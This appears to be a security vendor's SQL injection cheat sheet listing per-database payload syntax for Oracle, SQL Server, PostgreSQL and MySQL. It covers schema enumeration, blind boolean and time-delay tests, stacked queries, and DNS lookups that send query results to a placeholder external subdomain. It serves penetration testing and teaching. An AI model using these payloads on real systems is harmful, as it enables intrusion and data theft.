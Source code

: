 SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
You can concatenate together multiple strings to make a single string.

Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')

Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)

Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/

Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version

Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT sleep(10)

Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'

DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
